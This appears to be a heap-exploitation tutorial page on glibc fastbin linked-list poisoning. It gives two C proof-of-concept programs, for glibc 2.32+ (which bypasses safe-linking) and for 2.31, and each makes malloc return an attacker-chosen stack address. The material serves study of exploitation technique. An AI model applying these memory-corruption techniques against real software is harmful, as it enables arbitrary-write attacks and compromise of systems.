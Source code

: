 <details>
<summary><strong>Description</strong></summary>
<p>

this is going to be extremely similar to the tcache linked list process, and with the same end result. Due to a few differences, this isn't going to be as practical and useful as the tcache linked list technique...

however, it used to be a lot more useful...

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/fastbin/fastbin_linked/readme.md

</p>
</details>

### For `2.32+` versions

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk[8], *target, x[0x30], *reallocate_chunk;

    for(int i = 0; i < 8; i++) chunk[i] = malloc(0x78); // request size must be in fastbin range in order to work

    for(int i = 0; i < 7; i++) free(chunk[i]); // fill the 0x80 tcache
    free(chunk[7]); // chunk[7] goes to 0x80 fastbin

     // target must be aligned 0x10 (explain later)
    for(int i = 0x10; i < 0x20; i++) {
        if((((long)&x[i]) & 0xF) == 0) {
            target = &x[i];
            break;
        }
    }

    target[-1] = 0x81; // set up fake fastbin chunk size fit with the 0x80 fastbin (this is needed to bypass mitigation)
    target[0] = 0 ^ (((long)target - 0x10) >> 12); // set up fake fastbin chunk's next ptr is NULL to prevent error while dumping (can bypass this by other ways)

    printf("target: %p\n", target);

    /*VULNERABILITY*/
    chunk[7][0] = ((long)target - 0x10) ^ (((long)chunk[7] - 0x10) >> 12); // set up next ptr of 0x80 fastbin head point to target
    /*VULNERABILITY*/
    
    for(int i = 0; i < 7; i++) malloc(0x78); // empty the tcache
    malloc(0x78); // allocate a chunk from 0x80 fastbin, trigger fastbin dumping, now target is in 0x80 tcache
    // [tcache 0x80]: target
    // that's why target must be alligned 0x10

    reallocate_chunk = malloc(0x78);

    printf("reallocate chunk: %p\n", reallocate_chunk);
}
```

</p>
</details>

<detail>
<summary><strong>Comment</strong></summary>
<p>

the fastbin itself doesnt have address aligned `0x10` check, but we need to prepare fake chunk size and aligned address to prevent error when the fastbin tcache dumping occur...

</p>
</details>

### For `2.31` version

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.31`

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk[8], *target, x[0x30], *reallocate_chunk;

    for(int i = 0; i < 8; i++) chunk[i] = malloc(0x78); // request size must be in fastbin range in order to work

    for(int i = 0; i < 7; i++) free(chunk[i]); // fill the 0x80 tcache
    free(chunk[7]); // chunk[7] goes to 0x80 fastbin

    // target doesnt need to aligned 0x10 in 2.31
    target = (char *)(&x[0x20]) - 2;

    target[-1] = 0x81; // set up fake fastbin chunk size fit with the 0x80 fastbin (this is needed to bypass mitigation)
    target[0] = 0; // set up fake fastbin chunk's next ptr is NULL to prevent error while dumping (can bypass this by other ways)

    printf("target: %p\n", target);

    /*VULNERABILITY*/
    chunk[7][0] = ((long)target - 0x10); // set up next ptr of 0x80 fastbin head point to target
                                         // no mangled pointer in glibc 2.31
    /*VULNERABILITY*/
    
    for(int i = 0; i < 7; i++) malloc(0x78); // empty the tcache
    malloc(0x78); // allocate a chunk from 0x80 fastbin, trigger fastbin dumping, now target is in 0x80 tcache
    // [tcache 0x80]: target

    reallocate_chunk = malloc(0x78);

    printf("reallocate chunk: %p\n", reallocate_chunk);
}
```

</p>
</details>